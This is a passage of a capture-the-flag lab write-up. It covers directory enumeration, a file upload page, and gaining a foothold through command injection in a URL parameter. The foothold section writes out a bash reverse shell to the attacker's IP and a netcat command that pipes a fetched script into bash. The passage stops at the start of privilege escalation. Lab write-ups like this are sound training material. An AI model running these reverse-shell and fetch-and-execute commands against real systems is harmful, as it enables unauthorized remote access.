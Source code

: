 ```terminal
403      GET        9l       28w      277c http://10.10.210.15/cloud/.htpasswd
301      GET        9l       28w      310c http://10.10.210.15/css => http://10.10.210.15/css/
403      GET        9l       28w      277c http://10.10.210.15/css/.htaccess
403      GET        9l       28w      277c http://10.10.210.15/css/.htpasswd
403      GET        9l       28w      277c http://10.10.210.15/server-status

```

We found the directory `cloud`, let's check it out.

![](2.png)

We got a file upload page.

I tried uploading a php reverse shell but only images are allowed.

I manged to upload the shell with the extension `.php.png` but the code didn't get executed.

I also tried `SSRF` but that didn't work.

# **Foothold**

After playing with the request in burp suite for some time i found a code execution vulnerability.

![](3.png)

To execute code we can add two semicolons in the `url` and put our code between the two.

I setup a netcat listener and gave a shell file that contains the following reverse shell. `nc -lvnp 1234 < shell.sh`

```bash
sh -i >& /dev/tcp/10.18.0.188/9001 0>&1
```

After that i setup another listener to receive the shell and on burp i executed the following command:

```bash
nc 10.18.0.188 1234|bash
```

This command tell the target to connect to my first listener and after it receives the shell.sh file it pips it to bash which results in the command to get executed and me getting a shell.

![](4.png)

![](5.png)

# **Privilege Escalation**

## sysadmin

After some basic enumeration, we found an interesting file in the `/opt` directory.
